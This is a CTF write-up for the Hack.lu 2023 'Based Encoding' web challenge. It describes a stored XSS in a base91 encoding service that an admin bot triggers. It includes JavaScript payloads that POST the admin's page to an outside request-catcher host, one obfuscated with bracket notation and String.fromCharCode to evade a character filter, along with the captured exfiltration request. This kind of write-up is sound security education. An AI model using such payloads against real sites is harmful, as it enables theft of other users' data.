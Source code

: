 # Based Encoding

CTF: [Hack.lu CTF 2023](https://flu.xxx/)

Difficulty: Medium

> Based encoding as a service. But can we insert a little tomfoolery? Let's find out.
> 

Link: [https://based.skin](https://based.skin/)

Files: BASED.zip

When we open the link we are prompted to this website, where we can register or login.

![Screenshot from 2023-10-16 23-14-41.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-16_23-14-41.png)

![Screenshot from 2023-10-16 23-14-51.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-16_23-14-51.png)

After signing up and login in as a normal user we can go to the /create page, in which we can write something, the website will encrypt it and save it in its database.

![Screenshot from 2023-10-16 23-15-16.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-16_23-15-16.png)

![Screenshot from 2023-10-16 23-15-26.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-16_23-15-26.png)

In the provided .zip file we can see how both the encoding and decoding are implemented. It is a base91 encryption and here is the alphabet used:

```python
import struct

base91_alphabet = ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M',
	'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z',
	'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm',
	'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
	'0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '!', '#', '$',
	'%', '€', '(', ')', '*', '+', ',', '°', '/', ':', ';', '<', '=',
	'>', '?', '@', '[', ']', '^', '_', '`', '{', '|', '}', '~', '"']

decode_table = dict((v,k) for k,v in enumerate(base91_alphabet))

def decode(encoded_str): ...
def encode(bindata): ...
```

We can go to the main page to check our encodings (each encoding has its own ID).

![Screenshot from 2023-10-16 23-15-34.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-16_23-15-34.png)

Last thing we can do is reporting an encoding to the admin by passing the ID.

![Screenshot from 2023-10-16 23-15-56.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-16_23-15-56.png)

First thing that came to my mind, especially after reading the note on top of the page “an admin going there”, is that we might be able to steal some credentials by performing an XSS. Let’s check if the website is vulnerable.

![Screenshot from 2023-10-16 23-56-09.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-16_23-56-09.png)

After be sure that the encoding works fine we input the XSS payload and see how the website behaves.

![Screenshot from 2023-10-16 23-33-25.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-16_23-33-25.png)

![Screenshot from 2023-10-16 23-33-31.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-16_23-33-31.png)

The XSS has been triggered, the website is vulnerable! 

Before crafting the payload we need to notice that the base91 alphabet doesn’t accept some characters such as “.”. In order to fetch the admin data we need a payload like this:

```python
to_enc_string = '<script>\
fetch("/")\
    .then(x => x.text())\
    .then(x => fetch("https://nice.requestcatcher.com/test", {\
        method: "post",\
        body: x\
    }))\
</script>ciao'
```

Let’s avoid using the dots by accessing the functions using square brackets and obfuscating them by concatenating `String.fromCharCode(46)`. This is our payload in plaintext:

```python
to_enc_string = '<script>\
fetch("/")\
    ["then"](x => x["text"]())\
    ["then"](x => fetch("https://nice"+String["fromCharCode"](46)+"requestcatcher"+String["fromCharCode"](46)+"com/test", {\
        method: "post",\
        body: x\
    }))\
</script>ciao'
```

![Screenshot from 2023-10-17 00-11-03.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-17_00-11-03.png)

Let’s send the payload in the /create page.

Now, in order to trigger the XSS we need to let an admin open the page, so we report the ID whose document contains the malicious js and wait for a response in the request catcher.

This is what I got:

```jsx
POST /test HTTP/1.1

Host: nice.requestcatcher.com

Accept: */*

Accept-Encoding: gzip, deflate, br

Connection: keep-alive

Content-Length: 1586

Content-Type: text/plain;charset=UTF-8

Origin: https://based.skin

Referer: https://based.skin/

Sec-Ch-Ua: "HeadlessChrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: "Linux"

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: cross-site

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.62 Safari/537.36

<!DOCTYPE html>
<html>

<head>
  <meta charset="utf-8">
  <title>Based Sharing</title>
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.1/css/bulma.min.css">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <style type="text/css" media="screen">
    html,body {
      min-height: 100vh;
      display: flex;
      flex-direction: column;
    }

    body>footer {
      margin-top: auto;
    }
  </style>
</head>
<header>
  <nav class="navbar" role="navigation" aria-label="main navigation">
    <div class="navbar-brand">
      <a role="button" class="navbar-burger" aria-label="menu" aria-expanded="false" data-target="navbarBasicExample">
        <span aria-hidden="true"></span>
        <span aria-hidden="true"></span>
        <span aria-hidden="true"></span>
      </a>
    </div>
    <div id="navbar" class="navbar-menu">
      <div class="navbar-start">
        <a class="navbar-item" href="/">
          Base
        </a>
        <a class="navbar-item" href="/create">
          Create
        </a>
        <hr class="navbar-divider">
        <a class="navbar-item" href="/report">
          Report
        </a>
      </div>
    </div>
    

  </nav>
</header>

<body>
  <div id="content">
    <center>
      
    
<center>
	<section class="section">
		<div class="container">
			<h1 class="title">Welcome to Based Encoding</h1>
			
			<div class="container" id="based">
				<a href="/e/3caf4d9b6351ca4cb471f06c513b1a69e526f6df">3caf4d9b6351ca4cb471f06c513b1a69e526f6df</a>
			</div>
			
</div>
</section>
</center>

  </div>
</body>
```

Let’s open the link it is referencing and… Here’s the flag!

![Screenshot from 2023-10-17 00-16-42.png](Based%20Encoding%203360ae1b4858423483a4fa25b0de96de/Screenshot_from_2023-10-17_00-16-42.png)